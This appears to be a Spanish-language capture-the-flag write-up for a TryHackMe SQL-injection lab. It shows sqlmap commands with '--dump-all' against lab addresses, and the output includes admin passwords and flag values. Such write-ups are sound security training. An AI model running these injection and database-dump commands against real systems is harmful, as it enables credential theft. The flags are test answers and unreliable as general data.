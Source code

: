 ### Flag 3 

![[Pasted image 20250728143813.png]]

Veo que me lo bloquean por algún motivo, por lo que voy a investigar el código fuente en buscar de algo.

```javascript
$.getJSON('/register/user-check?username='+ username,function(resp){
```

aquí veo una url, voy a ver si consigo algo con ella.

![[Pasted image 20250728144116.png]]

Con esto tenemos premio ! ahora voy a coger esta petición le pongo el `*` para que sqlmap sepa de donde tirar y haber si sacamos otra flag.

```shell
root@ip-10-10-86-187:~# sqlmap -r Prueba4 --dbms=MySQL -D sqhell_3 --dump-all
Table: users
[1 entry]
+------+----------+---------------------------------+
| id   | username | password                        |
+------+----------+---------------------------------+
| 1    | admin    | icantrememberthispasswordcanyou |
+------+----------+---------------------------------+
Table: flag
[1 entry]
+------+---------------------------------------------+
| id   | flag                                        |
+------+---------------------------------------------+
| 1    | THM{FLAG3:97AEB3B28A4864416718F3A5FAF8F308} |
+------+---------------------------------------------+
[*] ending @ 14:46:06 /2025-07-28/
```

Vámonos ! ya tenemos otra flag, ahora solo faltan dos y me da que los apartados de `post` y `user`, nos van a servir bastante. Vamos a ver que hacemos.

### Flag 4 - Inyección "union select" avanzada

![[Pasted image 20250728161227.png]]

He necesitado ayuda de un walktrough, ya que no sabia como continuar [link][(https://medium.com/@hellhandy/tryhackme-sqhell-75fafb9f6795)]. Y a decir verdad no lo he llegado a entender. Pero bueno no hay que desanimarse, vamos a por el apartado de post haber si no es tan dificil.

### Flag 5 - 
```shell
root@ip-10-10-253-204:~# sqlmap -u "http://10.10.253.229/post?id=1" --dbms=MySQL -D sqhell_5 --dump-all --batch
Table: users
[1 entry]
+------+----------+------------+
| id   | username | password   |
+------+----------+------------+
| 1    | admin    | password   |
+------+----------+------------+

Table: flag
[1 entry]
+------+---------------------------------------------+
| id   | flag                                        |
+------+---------------------------------------------+
| 1    | THM{FLAG5:B9C690D3B914F7038BA1FC65B3FDF3C8} |
```